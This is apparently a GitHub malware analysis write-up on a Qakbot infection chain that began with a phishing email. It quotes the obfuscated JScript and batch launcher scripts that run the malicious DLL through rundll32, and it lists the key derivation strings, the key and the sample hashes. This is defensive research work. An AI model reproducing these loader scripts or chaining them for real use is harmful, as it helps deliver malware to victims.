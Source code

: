 # Qakbot 30 September 2022

## Intro

Three days ago a friend of mine received a phishing e-mail with a link (https[:]//lynxus[.]com/usq/refeidpisnretse) containing a zip file protected by the password "U492". 

<img width="1262" alt="0" src="https://user-images.githubusercontent.com/15001354/193664727-69ee625c-3a4d-4eea-8e71-5e718b625086.png">

Inside the zip there is an ISO called Learn#7435.iso containing a shortcut to the following malicious script:

~~~
// observablyCleaned
var undisruptedPuzzles = "rund DllRegis";

// ShellExecute
var bridgeheadsLibels = new ActiveXObject("shell.application").shellexecute("assaulting\\redressingLamentations.cmd", undisruptedPuzzles, "", "open", 0);
~~~

<img width="1134" alt="1" src="https://user-images.githubusercontent.com/15001354/193664786-75664000-6658-4582-9d27-258bd18f9d39.png">


The script uses ActiveXObject in order to execute another script called redressingLamentations.cmd (in the ISO) by passing the arguments "rund" and "DllRegis". 

Following the redressingLamentations.cmd script:

~~~
@echo off

	set a=ll
	set e=32

	:: tankageLicentiously
	%1%a%%e% assaulting\tiddler.dat,%2terServer

exit
~~~

It runs the command rundll32 assaulting\tiddler.dat,DllRegisterServer in order to start the malicious DLL.

## First Stage

After a bit of analysis, I wrote this simple script to extract the loader in order to practice a bit with python. 
The two strings used to generate the key are taken dynamically, the shellcode is taken dynamically by using the size offset that is hardcoded.


The malicious DLL was uploaded to [Malware Bazaar](https://bazaar.abuse.ch/sample/5b54f57dbaa74fa589afb2d26d6c6b39e0c2930bd88fea3172556ce96b3eb959/) by JAMESWT_MHT.


These two strings are used to generate the key:

* ewZOSoNXdJTjGtfGFtJwDGnslgItKrqSOoXTBEUIeNsATwlqubQMeKZByuBEOxjyadypZOaxQyRosZjVcChW
* gjdhkdfgkjsdghfkjsdhkjslfdghsdkjl

The key is:

* 7fafab656017bf33b9606982e6a6f277

HASHES:

* SHA256: 5B54F57DBAA74FA589AFB2D26D6C6B39E0C2930BD88FEA3172556CE96B3EB959

* SHA1: 4aa4e28cd07e218e45ec60942c53d82c3f50fea7

* MD5: 7754a35deec807d757f79165ba17708d


## Second Stage

Extracted DLL from tiddler.da, you can find it on [Malware Bazaar](https://bazaar.abuse.ch/sample/8b08c031d365a0b4d032c6e51bf773655e15795fe3eabcd3fa6487ffe9f3d6b3/).

HASHES:

* SHA256: 8b08c031d365a0b4d032c6e51bf773655e15795fe3eabcd3fa6487ffe9f3d6b3

* SHA1: cd0528db38e743c619341d3a542748be86d9ba72

* MD5: b8fb226a54197955a05705be00ff2d07

